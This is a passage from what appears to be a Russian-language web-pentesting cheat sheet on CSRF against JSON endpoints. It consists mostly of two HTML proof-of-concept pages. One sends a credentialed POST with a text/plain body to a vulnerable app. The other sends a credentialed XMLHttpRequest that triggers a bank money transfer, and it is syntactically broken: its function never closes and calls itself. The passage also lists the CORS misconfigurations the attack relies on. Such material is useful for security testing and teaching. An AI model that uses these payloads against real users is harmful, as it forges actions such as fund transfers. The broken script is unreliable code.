 ```html
<html>  
<title>JSON CSRF POC</title>  
<body>  
<center>  
<h1> JSON CSRF POC </h1>  
<script>  
fetch('http://vul-app.com', {method: 'POST', credentials: 'include', headers: {'Content-Type': 'text/plain'}, body: '{"name":"attacker","email":"attacker.com"}'});  
</script>  
<form action="#">  
<input type="button" value="Submit" />  
</form>  
</center>  
</body>  
</html>
```


##### С помощью запроса XMLHTTP/запроса AJAX: когда **Content-Type проверяется** на стороне сервера, и сервер принимает только "Content-Type: "application/json".

* Заголовок "Content-Type" должен быть разрешен сервером, чтобы мы могли добавить пользовательский заголовок, который браузер напрямую не позволяет нам добавить. Запрашиваемые Method и Origin также должны быть разрешены сервером. Проверьте ответ префлайта.  
* "Access-Control-Allow-Credential" должен быть true.  
* ACAO (Access-Control-Allow-Origin) не должно быть статическим. Приложение динамически устанавливает ACAO на происхождение запроса. Согласно спецификациям CORS, значение wildcard в паре с ACAC (Access-Control-Allow-Credential), установленным в true, приведет к ошибке.

```html
<html>  
<body>  
<script>  
function submitRequest()  
{  
var xhr = new XMLHttpRequest();  
xhr.open("POST", "https:\/\/members.bankofdirectdefense.com\/accounts\/transfer", true);  
xhr.setRequestHeader("Content-Type", "application\/json");  
xhr.withCredentials = true;  
xhr.send("{\"from-account\": 1,\"toAccount\": \"021000021-9876543210\",\"amount\": 1000,\"currency\": \"USD\"}");  
submitRequest();  
</script>  
</body>  
</html>
```

##### С помощью файла FLASH: когда **Content-Type проверяется** на стороне сервера и сервер принимает **только "Content-Type: application/json"**, а **CORS также настроен правильно**
https://blog.appsecco.com/exploiting-csrf-on-json-endpoints-with-flash-and-redirects-681d4ad6b31b